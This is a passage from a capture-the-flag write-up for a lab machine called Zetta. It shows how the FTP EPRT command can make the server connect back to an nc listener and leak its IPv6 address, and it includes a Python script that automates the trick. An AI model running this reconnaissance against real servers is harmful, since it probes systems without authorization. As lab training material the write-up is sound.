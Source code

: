 It’s worth noting that this server won’t connect to ports under 1024. So I pick a high one. Now I’ll start a `nc` listener on 4433 and run `LIST`. It fails on the FTP server:

```

LIST
150 Connecting to port 4433
226-Options: -l 
226 0 matches total

```

But I get a connection at `nc`:

```

root@kali# nc -lnvp 4433
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from dead:beef::250:56ff:fe88:e5fa.
Ncat: Connection from dead:beef::250:56ff:fe88:e5fa:54680.

```

Now I have the IPv6 of Zetta. Each time the box boots, that IP will change, so I wrote a quick script to fetch it. The script opens a socket on a random port to listen, then logs into FTP, authenticates, and sets the transfer to my IPv6 with the same random port. Then it accepts the connection on the listener, and prints the IPv6:

```

#!/usr/bin/env python3

import random
import netifaces
import socket

port = random.randint(2000,10000)
print(f'[*] Generated random listen port: {port}')

print(f'[*] Starting listener on ::{port}')
v6listener = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
v6listener.bind(('::', port))
v6listener.listen()

myv6 = netifaces.ifaddresses('tun0')[10][0]['addr']
print(f'[*] Local IPv6 address: {myv6}')

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    print('[*] Connecting to Zetta 10.10.10.156:21')
    s.connect(('10.10.10.156', 21))
    print('[+] Connected\n[*] Waiting 10 seconds for FTP MOTD')
    s.send(b'\n')
    s.recv(2048)
    print('[*] Logging in')
    s.send(f'USER {"A"*32}\n'.encode())
    s.recv(2048)
    s.send(f'PASS {"A"*32}\n'.encode())
    s.recv(2048)
    eprt_str = f'EPRT |2|{myv6}|{port}'
    print(f'[+] Authenticated\n[*] Sending {eprt_str}')
    s.send(f'{eprt_str}\nLIST\n'.encode())
    s.recv(2048)
    conn, addr = v6listener.accept()
    s.recv(2048)
v6listener.close()
```